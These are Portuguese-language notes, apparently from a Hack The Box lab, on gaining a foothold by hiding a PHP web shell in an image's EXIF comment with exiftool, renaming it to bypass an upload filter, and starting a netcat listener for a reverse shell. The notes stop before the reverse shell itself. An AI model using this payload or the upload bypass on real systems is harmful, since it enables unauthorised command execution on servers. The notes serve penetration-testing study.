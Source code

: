 ![HTB](/exif2-magic.png)

e vi o vídeo desse cara que está destacado

Ele carrega uma shell para dentro de uma imagem e faz upload no roteador, com isso ganha acesso aos diretorios internos.

Vou tentar fazer a mesma injeção de código.

E encontrar um jeito de utilizar o reverse shell para dentro da maquina.. to vendo exemplos funcionais. 

http://sejalivre.org/OSCP/OSCP_Notes--ReverseShell_(all).html

*Encontrei*
https://github.com/xapax/security/blob/master/bypass_image_upload.md

Esse é o código que vou usar no exiftool:

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```
![HTB](/print1.png)

depois disso renomeio para .php

*mv fxshell.png fxshell.php.png*

continuando .. 

Fiz o upload com sucesso..

estava pesquisando sobre o nc (netcat)  https://www.computerhope.com/unix/nc.htm

com ele podemos ouvir a porta TCP/UDP  no caso aqui,  vou colocar o nc  escutando na porta 1234 uma conexão

https://www.speedguide.net/port.php?port=1234

*nc -nlvp 1234*

```bash
FLAGS:

-n Não faça pesquisas de serviço ou DNS em endereços, nomes de host ou portas especificados.

-l Usado para especificar que o nc deve escutar uma conexão de entrada em vez de iniciar uma conexão com um host remoto. É um erro usar esta opção em conjunto com as opções -p, -s ou -z. Além disso, qualquer tempo limite especificado com a opção -w é ignorado.

-v Faça nc dar uma saída mais detalhada.

-p source_port Especifica a porta de origem que a nc deve usar, sujeita a restrições e disponibilidade de privilégios.
```
![HTB](/print2-magic.png)

agora vou usar aquele famoso shell reverso em python que o professor cansou de falar
